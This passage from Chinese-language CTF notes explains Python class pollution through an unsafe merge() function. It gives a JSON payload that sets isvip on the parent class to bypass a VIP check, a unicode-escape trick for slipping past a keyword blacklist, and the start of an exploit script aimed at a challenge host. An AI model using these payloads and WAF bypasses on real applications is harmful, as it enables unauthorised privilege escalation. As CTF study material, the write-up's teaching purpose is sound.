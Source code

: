 			  
			  class hhh(User):
			      def __init__(self):
			          self.username = ""
			          self.password = ""
			  ...
			          if user.isvip:
			  ```
		- python寻找对象属性的过程：
			- 查看类有没有此属性，有就返回
			- 查看各个父类有没有属性，有就返回
			- 查看对象本身有没有属性，有就返回
			- 都找不到则报错
		- 因为python寻找属性时类的优先级高于对象，我们可以通过污染类的属性来通过`if user.isvip:`的判断
		- 产生污染处
			- ```python
			  user = hhh()
			  merge(data, user)
			  ```
		- 污染的目标是一个新的hhh对象`user`，我们可以赋值`user.__class__.__base__.isvip = True`
		- 对应的payload
			- ```python
			  payload = {
			      "username": "1",
			      "password": "1",
			      "__class__": {
			          "__base__": {
			              "isvip": True
			          }
			      }
			  }
			  ```
	- unicode绕过waf
		- 将字符串替换为`\u00xx`的格式
		- 示例
			- ```python
			  payload = json.dumps(payload)
			  blacklist = ["__class__", "__base__", "isvip"]
			  for w in blacklist:
			      payload = payload.replace(w, encoder.full_urlencode(w, head="\\u00"))
			  ```
	- fuzz绕过奇葩的num参数
		- fuzz发现在数字后面加一个空格即可绕过
	- 完整exp
		- ```python
		  url = "https://bc2tyd2d1citpf1m9mhee91o4.node.game.sycsec.com"
		  
		  payload = {
		      "username": "1",
		      "password": "1",
		      "__class__": {
		          "__base__": {
		              "isvip": True
		          }
		      }
		  }
		  payload = json.dumps(payload)
		  blacklist = ["__class__", "__base__", "isvip"]
		  for w in blacklist:
		      payload = payload.replace(w, encoder.full_urlencode(w, head="\\u00"))
		  